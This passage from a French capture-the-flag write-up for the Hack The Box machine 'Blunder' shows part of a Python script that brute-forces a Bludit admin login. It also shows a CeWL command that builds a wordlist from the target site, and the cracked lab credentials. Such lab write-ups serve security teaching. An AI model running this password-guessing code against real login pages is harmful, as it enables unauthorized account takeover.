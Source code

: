 ~~~
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break


root@Host-001:~/Bureau/htb/Blunder# 
~~~

Après plusieurs minutes toujours pas de résultats avec rockyou...

On va créer une liste de password avec CeWL

~~~
root@Host-001:~/Bureau/htb/Blunder# cewl -w wordlists.txt -d 10 -m 1 http://10.10.10.191/
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
root@Host-001:~/Bureau/htb/Blunder# cat wordlists.txt | head
Load
Plugins
to
the
of
and
a
Page
Include
Site
root@Host-001:~/Bureau/htb/Blunder# cat wordlists.txt | grep Roland
RolandDeschain
root@Host-001:~/Bureau/htb/Blunder# 
~~~

On relance le script avec cette wordlist

~~~
(...)

[*] Trying: RolandDeschain
()
SUCCESS: Password found!
Use fergus:RolandDeschain to login.
()
~~~

On peut se loguer a Bludit avec fergus:RolandDeschain
